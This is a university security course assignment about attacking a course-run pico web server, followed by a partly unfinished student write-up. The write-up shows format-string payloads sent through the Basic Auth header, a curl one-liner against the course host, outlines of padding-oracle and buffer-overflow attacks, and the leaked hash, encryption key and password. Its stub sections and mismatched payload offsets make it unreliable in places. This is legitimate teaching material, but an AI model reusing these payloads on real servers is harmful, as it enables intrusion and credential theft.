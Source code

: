 ## 2023 Project 2

Ο στόχος σας είναι να επιτεθείτε στον server `project-2.csec.chatzi.org`.
Γνωρίζετε ότι στο url http://project-2.csec.chatzi.org:8000
τρέχει o pico webserver, ο κώδικας του οποίου
υπάρχει στο [πακάτω repository](https://github.com/chatziko/pico).
Εχετε επίσης ήδη υποκλέψει:
- το username του site: `admin`
- το password: `8c6e2f34df08e2f879e61eeb9e8ba96f8d9e96d8033870f80127567d270d7d96`  
  (ο συγκεκριμένος webserver το δέχεται μόνο σε encrypted μορφή)

Tasks:

1. Βρείτε το MD5 digest του plaintext password
2. Βρείτε το plaintext password
3. Βρείτε το περιεχόμενο του αρχείου `/etc/secret` στον server
4. Βρείτε το αποτέλεσμα της εντολής `lspci` στον server


## Παρατηρήσεις
<details>
<summary> Touch me </summary>

- Οι ίδιες ομάδες με την εργασία 1
- Εγγραφή στο github: https://classroom.github.com/a/HxmDkdtS

- Η ταχύτητα επίλυσης __δεν__ έχει βαθμολογική σημασία, αλλά θα υπάρχει "leaderboard"
  με τους 3 πρώτους που λύνουν κάθε task καθαρά για λόγους "flexing". Αν είστε στους
  πρώτους στείλτε claim στο `ys13@chatzi.org` (αλλιώς δεν χρειάζεται).

- Τα βήματα μπορούν να λυθούν με οποιαδήποτε σειρά, δεν χρειάζεται
  η λύση του ενός για το επόμενο (αλλά προτείνεται η σειρά που δίνεται).

- Hints:
  - Task 1: πρέπει να χρησιμοποιήσετε μια απλή ευπάθεια στον C κώδικα
  - Task 2: πρέπει να σπάσετε το encryption χρησιμοποιώντας μια ευπάθεια της υλοποίησης. __Δεν__
       πρέπει να κάνετε invert το digest από το task 1 (δεν θα το βρείτε
       σε MD5 databases, εκτός και αν κάποια άλλη ομάδα το βρει και το προσθέσει).
  - Tasks 3/4: buffer overflow attack. Το attack στο task 4 είναι λίγο πιο δύσκολο (αν θέλετε μπορείτε να κάνετε τα δύο tasks μαζί, αλλά στο 3 υπάρχει και λίγο πιο εύκολη λύση).

- Βαθμολογία μαθήματος
    - Εργασία 1: 4 μονάδες
    - Εργασία 2:
      - Task 1: 1 μονάδα
      - Task 2: 1 μονάδα
      - Task 3: 2 μονάδες
      - Task 4: 1 μονάδα
      - Docker: 1 μονάδα

- Στο τέλος του `README.md`: αναφέρετε τις απαντήσεις, και περιγράψτε τα βήματα που ακολουθήσατε. Μην ξεχάσετε να κάνετε commit μαζί με οποιοδήποτε κώδικα χρησιμοποιήσατε.
    Για ό,τι δεν ολοκληρώσετε περιγράψτε (και υλοποιήστε στο πρόγραμμα) την πρόοδό σας και πώς θα μπορούσατε να συνεχίσετε.

- Για όλα τα βήματα απαιτείται να γράψετε ένα πρόγραμμα που να αυτοματοποιεί την εύρεση της λύσης.
  Μπορείτε να χρησιμοποιήσετε ό,τι γλώσσα προγραμματισμού θέλετε, αλλά θα πρέπει να μπορώ να το τρέξω
  σε Ubuntu 22.04 χρησιμοποιώντας software που είναι διαθέσιμο στο Ubuntu. Θα πρέπει επίσης
  να φτιάξετε ένα script `run.sh` που εκτελεί το πρόγραμμα με ό,τι παραμέτρους χρειάζονται.

- Η πλήρης λύση της εργασίας απαιτεί να φτιάξετε ένα Docker container που να αυτοματοποιεί πλήρως την επίθεση. Ένα script ουσιαστικά, που απλά να εκτελείται σε container
ώστε να μπορεί να τρέξει οπουδήποτε. Πάραδειγμα `Dockerfile` υπάρχει στο repository,
και θα πρέπει να τρέχει με:
  ```
  docker build --tag attack . && docker run attack
  ```
  Λύσεις χωρίς docker γίνονται δεκτές, απλά χάνετε 1 μονάδα.

- Deadline: __20/7__ (μέχρι το τέλος της ημέρας)
  - Μπορείτε να παραδώσετε την εργασία και το Σεπτέμβρη, με μόνη διαφορά
  ότι το docker τότε θα πιάνει 3 μονάδες γιατί έχετε παραπάνω χρόνο
  (και πάλι όμως μπορείτε να πάρετε 10).

- __Οχι spoilers__

- __Οχι DoS__ ή brute force. Μπορείτε να χρησιμοποιείτε scripts που να κάνουν μια επίθεση με έναν λογικό αριθμό από requests (να μπορεί να τελειώσει σε μία ώρα max). Aλλά όποιος βαράει στα τυφλά μηδενίζεται
   (θέλουμε οι servers να είναι accessible από όλους). Αν δεν είστε σίγουροι αν κάτι επιτρέπεται, απλά ρωτήστε.

- Είναι σαφώς προτιμότερο να υλοποιήσετε πρώτα όλα τα attacks locally πριν τα τρέξετε στον server.

- Ο pico server έχει γίνει compile στο `linux03.di.uoa.gr`, οπότε μπορείτε εκεί να φτιάξετε
  ένα executable ακριβώς σαν αυτό που εκτελείται στον server.

- Αν θέλετε hints ρωτήστε privately (χωρίς βαθμολογική συνέπεια, σε λογικά πλαίσια).

</details>

## Report

### TASK 1 -- Information Leak
------------------------------

**TARGET**: Find the MD5 digest of the admin user's password.

The MD5 of the password is fetched from the `./config/htpasswd` file in the server's runtime.  
Specifically when a GET request on root is received by the server, the [check_auth()](./pico/main.c#99L) function is executed. The parameter of that function is the Base64 encoded username and password in the `<username>:<password>` format which is passed via the GET request's HTTP Basic Auth header: `Authorization: Basic`.

We identify a format string vulnerability in the [check_auth()](./pico/main.c#99) function of `pico` server, where the code execution if the username provided in invalid (doesn't exist in the htpasswd file) a printf function is called without a format specifier, but with the `auth_username` variable directly. This allows us to input username strings that are format specifiers in C's printf().

```c
  // check if user is found
  if(password_md5 == NULL) {
    printf("HTTP/1.1 401 Unauthorized\r\n");
    printf("WWW-Authenticate: Basic realm=\"");
    printf("Invalid user: ");
    printf(auth_username);
    printf("\"\r\n\r\n");

    free(auth_decoded);
    return 0;
  }
```

++ Assembly

Here after we pass an invalid user in the base64 encoded Basic Auth string pair we get a message that informs us of the invalid username we gave. There we have a format string vulnerability in the `printf()`.  
We can use that to leak information from the stack (!!!) or even write to arbitrary memory addresses.  
Observing the pico server's runtime we figure out that the MD5 password value is on the 7th position in the stack when the vulnerable `printf()` is executed.  
Formulate a base64 Auth string with `%7$s:hello` and perform a GET request at the root route of the server.

We get back the MD5 hash of the password in the HTTP response.

```
Flag #1
MD5 HASH: ef281a07091268a0d779cf489d00380c
```

### TASK 2 -- Password Decryption
------------------------------

There are 3 ways to get this flag:
1. The intended one is a padding oracle attack on `AES-128 CBC`.
2. The unintended is that the encryption key is stored in the `encryption_key` variable which is stored in the stack. We can use the above format string vuln to extract the key.
3. The third way and trivial way is after completing [Task 3](#task-3----local-file-read) we can read the key file from the local filesystem.

### 1. Intended
1
++ Padding oracle

### 2. Unintended

As we can see at the main function of pico the `encryption_key` is fetched and stored in a local variable.
`%60$s:hello` we find the location where the key is stored in the memory and leak it.

Then we create a decryptor program in C that utilizes the `decrypt()` function where we pass as parameters the key we extracted and the initial encrypted admin password we were provided.

```http
GET / HTTP/1.1
Host: project-2.csec.chatzi.org:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic JTYwJHM6aGVsbG8=
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

```bash
# and in curl
(curl http://project-2.csec.chatzi.org:8000/ -H 'Authorization: Basic JTY0JHM6aGVsbG8=' -v)
```

### 3. Trivial

We can fetch the key file from `./config/key` and run the decryption process described in Solution 2.

```
Flag #2:
ENCRYPTION KEY: c56b2fa8d1a21183a185f7c1e526a0b8
PLAINTEXT PASSWORD: aCEDIsRateRe
```

### TASK 3 -- Local File Read
------------------------------

Here we need to go a level deeper in our binary analysis to achieve the task.  
We start off by getting a sense of the protections of the binary.


### Context

- The general idea:  
The server hosted at the target address is the same pico server that we can compile locally. Since we know the execution environment of it we can deduce certain things for it's runtime.

- The binary's protections:  
```gdb
Canary                        : ✓ (value: 0xcafebabe)
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

### Analysis

- Tools:
  - gdb (gef)
  - objdump
  - strace/ltrace
  - 
  - spidey sense

- The pico server is made in such a way as to handle HTTP POST and GET requests by fork()ing to different children that perform the actual handling. Since our case in point.

We already have a format string vulnerability identified in the executable which we know how to trigger. This allows us to extract information for the context of execution of the binary. We can leak an incredible amount of stack values which in x86 are gonna be very useful since they encapsulate what has been pushed in the stack on runtime.

In order to capitalize on this we need to identify a second vulnerability which allows us to redirect the execution.

### POST -- post_param
------------------------------

1. Content-length
2. Bof
3. canary, libc base, ebp, 
We can perform a buffer overflow attack on 

In the pico servers code, we identify an HTTP POST route which `post_param()`

```
Flag #3:
[ascii art] + You guessed it... puppies!
```

### Attack Layout

- Leak necessary info from the stack
- Use the post_data bof
- Redirect execution to the send_file function
- Handle runtime behaviour and load the filename as the function's argument

### TASK 4 -- lspci aka Remote Command Execution
------------------------------

```
Flag #4:
00:00.0 Host bridge: Intel Corporation 440FX - 82441FX PMC [Natoma]
00:01.0 ISA bridge: Intel Corporation 82371SB PIIX3 ISA [Natoma/Triton II]
00:01.3 Non-VGA unclassified device: Intel Corporation 82371AB/EB/MB PIIX4 ACPI (rev 08)
00:03.0 VGA compatible controller: Amazon.com, Inc. Device 1111
00:04.0 Non-Volatile memory controller: Amazon.com, Inc. Device 8061
00:05.0 Ethernet controller: Amazon.com, Inc. Elastic Network Adapter (ENA)
```